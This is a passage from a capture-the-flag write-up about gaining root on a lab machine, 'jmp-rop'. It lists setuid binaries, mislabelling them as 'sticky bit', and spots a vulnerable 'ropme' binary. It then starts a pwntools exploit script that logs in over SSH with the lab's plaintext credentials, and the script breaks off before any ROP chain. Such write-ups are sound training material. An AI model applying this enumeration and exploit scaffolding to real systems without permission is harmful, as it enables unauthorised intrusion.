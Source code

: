 
### 0x03 Root write-up:

For the privilege escalation the name of the machine helps us to guide us by where it goes, so we list the files that have sticky bit.

```
shon@jmp-rop:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mtr
/usr/bin/lppasswd
/usr/bin/chfn
/usr/bin/at
/usr/bin/sudoedit
/usr/bin/ropme <----------------------
/usr/bin/X
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/sbin/pppd
/usr/sbin/uuidd
/bin/su
/bin/mount
/bin/fusermount
/bin/ping6
/bin/umount
/bin/ping
```

The goal is clear! We download the file and we try to exploit it. To exploit this rop has been used a exploit from [Julianjm](https://twitter.com/julianjm512).

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 192.168.1.104 --user shon --pass elheraldodeshon /usr/bin/ropme
from pwn import *

exe = context.binary = ELF('./ropme')

host = args.HOST or '192.168.105.156'
port = int(args.PORT or 22)
user = args.USER or 'shon'
password = args.PASSWORD or 'elheraldodeshon'
remote_path = '/usr/bin/ropme'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug(["./ropme"] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```